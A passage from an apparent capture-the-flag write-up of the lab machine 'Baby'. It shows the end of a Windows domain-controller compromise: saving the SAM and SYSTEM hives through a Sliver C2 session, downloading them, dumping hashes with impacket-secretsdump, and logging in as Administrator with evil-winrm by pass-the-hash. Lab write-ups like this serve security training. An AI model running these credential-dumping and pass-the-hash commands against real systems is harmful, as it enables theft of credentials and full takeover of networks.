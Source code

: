 And we also need the SYSTEM and SAM files, which we can get by invoking the `reg` utility.

```bash
[server] sliver (EXISTING_CROTCH) > reg save hklm\sam c:\Temp\sam
[server] sliver (EXISTING_CROTCH) > reg save hklm\system c:\Temp\system
...
[server] sliver (EXISTING_CROTCH) > download system
[*] Wrote 16842752 bytes (1 file successfully, 0 files unsuccessfully) to /home/syl/vulnlab/Baby/system
[server] sliver (EXISTING_CROTCH) > download SAM
[*] Wrote 16842752 bytes (1 file successfully, 0 files unsuccessfully) to /home/syl/vulnlab/Baby/SAM
```

Now we can extract the hashes with `impacket-secretsdump`


```bash
sylsec$ python3 secretsdump.py -system /home/syl/vulnlab/Baby/exfiltrated/system -sam /home/syl/vulnlab/Baby/exfiltrated/SAM -ntds /home/syl/vulnlab/Baby/exfiltrated/ntds.dit LOCAL
...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<HASH>:::
...
```

And once we've extracted the hash, we can log in to the DC using WinRM.

```bash
sylsec$ evil-winrm -i $ip -u Administrator -H $hash
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
VL{<hash>}
```